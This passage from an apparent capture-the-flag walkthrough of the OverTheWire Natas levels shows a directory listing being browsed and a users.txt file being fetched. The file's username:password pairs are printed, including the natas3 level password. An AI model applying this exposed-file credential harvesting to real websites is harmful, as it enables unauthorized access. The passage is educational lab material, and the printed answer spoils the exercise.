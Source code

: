 From the header, this looks like an index of files. Take a second to check out each entry. This line certainly looks interesting:

```HTML
<tr><td valign="top"><img src="/icons/text.gif" alt="[TXT]"></td><td><a href="users.txt">users.txt</a></td><td align="right">2023-10-05 06:15  </td><td align="right">145 </td><td>&nbsp;</td></tr>
```

This is linking a file called `users.txt` within the `files` directory. Let's check it out!

If we wanted to, we can also search specifically for links within our response by using a `find` command:

```
> response find --links
[🐝] Find results:
-- truncated --
/
pixel.png
users.txt
```

So let's checkout out that `txt` file by making another get request:

```
> get http://natas2.natas.labs.overthewire.org/files/users.txt
[🐝] Sending GET request to http://natas2.natas.labs.overthewire.org/files/users.txt...
[🐝] GET request completed. Status code: 200 (OK)
[🐝] Response captured! Type 'response show' for summary
```

```
> response show -t
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

Perfect! Along with a few other credentials, we find the ones we're looking for:

```
natas3:G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q
```

```
> var add pass3 G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q
[🐝] Added variable:
   $pass3 -> 'G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q'
```

## Level 3

After updating our headers like before, and making our get request to the next URL, we find this source:
